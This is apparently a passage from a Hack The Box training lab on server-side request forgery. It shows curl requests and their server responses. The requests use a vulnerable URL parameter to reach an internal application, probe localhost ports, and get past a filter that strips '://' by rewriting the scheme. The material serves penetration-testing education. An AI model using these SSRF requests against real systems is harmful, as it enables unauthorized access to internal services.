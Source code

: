   SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 83
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 13:51:15 GMT

<html>
<body>
<h1>Internal Web Application</h1>
<a>Hello World!</a>
</body>
</html>
```

Now, let us discover any web applications listening in localhost. Let us try to issue a request to a random port to identify how responses from closed ports look.

#### cURL - Interacting with the Target

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 97
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:52:32 GMT

<html><body><h1>Resource: http127.0.0.1:1</h1><a>unknown url type: http127.0.0.1</a></body></html>
```

We have received an `unknown url type` error message. It seems the web application is removing `://` from our request. Let's try to overcome this situation by modifying the URL.

#### cURL - Interacting with the Target

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 99
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:55:10 GMT

<html><body><h1>Resource: http://127.0.0.1:1</h1><a>[Errno 111] Connection refused</a></body></html>
```
